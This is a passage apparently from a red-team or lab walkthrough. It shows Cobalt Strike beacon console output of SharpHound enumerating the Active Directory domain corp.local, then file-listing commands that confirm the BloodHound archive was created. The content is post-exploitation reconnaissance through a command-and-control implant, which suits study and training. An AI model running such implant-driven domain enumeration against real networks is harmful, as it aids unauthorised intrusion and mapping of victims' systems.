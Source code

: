 ```powershell


[+] received output:
2023-12-21T13:30:18.6835137-05:00|INFORMATION|Beginning LDAP search for corp.local

2023-12-21T13:30:18.7928893-05:00|INFORMATION|Producer has finished, closing LDAP channel


[+] received output:
2023-12-21T13:30:18.8553895-05:00|INFORMATION|LDAP channel closed, waiting for consumers


beacon> pwd
[*] Tasked beacon to print working directory
[+] host called home, sent: 8 bytes
[*] Current directory is C:\Users\Hax0r
[+] received output:
2023-12-21T13:30:49.6680496-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 33 MB RAM

[+] received output:
2023-12-21T13:31:04.8712567-05:00|INFORMATION|Consumers finished, closing output channel


[+] received output:
2023-12-21T13:31:04.9181330-05:00|INFORMATION|Output channel closed, waiting for output task to complete

Closing writers

2023-12-21T13:31:05.0743772-05:00|INFORMATION|Status: 356 objects finished (+356 7.73913)/s -- Using 41 MB RAM

2023-12-21T13:31:05.0899994-05:00|INFORMATION|Enumeration finished in 00:00:46.4047932


[+] received output:
2023-12-21T13:31:05.2150018-05:00|INFORMATION|Saving cache with stats: 315 ID to type mappings.
 322 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.

2023-12-21T13:31:05.2306261-05:00|INFORMATION|SharpHound Enumeration Completed at 1:31 PM on 12/21/2023! Happy Graphing!
```
checking to ensure that the `bloodhound.zip` file was made
```powershell
[12/21 13:31:05] beacon> ls
[12/21 13:31:05] [*] Tasked beacon to list files in .
[12/21 13:31:05] [+] host called home, sent: 19 bytes
[12/21 13:31:05] [*] Colors scheme:
[*] ---------------------------
[*] Directories:  YELLOW 
[*] Cobalt Strike Uploaded Files: BLUE
[*] Sensitive files:  RED 
[*] Configuration files:  DARK GREEN 
[*] Archives:  ORANGE 
[*] Source codes:  DARK BLUE 
[*] Executables:  MAGENTA 
[*] Documents:  GREEN 
[+] Location: C:\Users\Hax0r\*

```
